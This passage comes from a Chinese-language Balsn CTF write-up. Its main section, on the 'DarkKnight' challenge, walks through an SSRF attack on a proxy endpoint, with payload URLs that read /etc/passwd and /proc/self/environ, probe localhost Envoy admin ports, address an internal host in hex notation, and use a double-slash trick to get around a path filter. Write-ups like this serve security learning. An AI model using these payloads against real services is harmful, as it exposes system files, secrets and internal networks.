 ``` bash
3. exit
what do you want to do? > 3
bye-bye~
```

### flag
BALSN{however_Admin_passed_the_Dark_knight_with_hiding_behind_Someone}

### 參考
[Introduction to ADS – Alternate Data Streams](https://hshrzd.wordpress.com/2016/03/19/introduction-to-ads-alternate-data-streams/)

## DarkKnight
### 題目

![image](https://user-images.githubusercontent.com/57281249/142795163-a834a3c8-d34a-4aed-bcfc-9c3ba5520a99.png)

### 解題
進來看到這個
![image](https://user-images.githubusercontent.com/57281249/142795197-a049ab6f-1d15-43d9-b417-54a3ee54db4f.png)

試著 http://proxy.balsnctf.com/query?site=http://www.google.com
![image](https://user-images.githubusercontent.com/57281249/142795222-e11076c6-6fa7-493e-9dd0-8b40d8f3adf6.png)

試著 ssrf  http://proxy.balsnctf.com/query?site=file:///etc/passwd
![image](https://user-images.githubusercontent.com/57281249/142795236-522dd390-14cb-442b-ac1d-7221e7fb1ec5.png)

試著 http://proxy.balsnctf.com/query?site=file:///proc/self/environ
![image](https://user-images.githubusercontent.com/57281249/142795255-13689cc5-9a1f-4e64-9f81-b986e01af138.png)

試著 http://proxy.balsnctf.com/query?site=file:///proc/net/tcp
![image](https://user-images.githubusercontent.com/57281249/142795276-6d3bd2de-7fd7-4077-bc8f-d2278f4cb6f2.png)

試著 http://proxy.balsnctf.com/query?site=http://127.0.0.1:15000
![image](https://user-images.githubusercontent.com/57281249/142795294-50e342dc-500b-43ec-8241-668dd110e0b0.png)

試著 http://proxy.balsnctf.com/query?site=http://127.0.0.1:15000/stats
![image](https://user-images.githubusercontent.com/57281249/142795368-4b9539c1-702b-4209-af46-7158f9f4362a.png)

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307
![image](https://user-images.githubusercontent.com/57281249/142795389-217d6af0-0418-4c8b-ae17-05aa3bcd09ee.png)

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307/flag

炸
![image](https://user-images.githubusercontent.com/57281249/142795401-d274d047-1b98-4180-bc4c-60860610af34.png)

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307//flag

過
![image](https://user-images.githubusercontent.com/57281249/142795421-f5b07089-8ff3-4796-b1e3-f02de4d24734.png)

### flag
BALSN{default_istio_service_mesh_envoy_configurations}
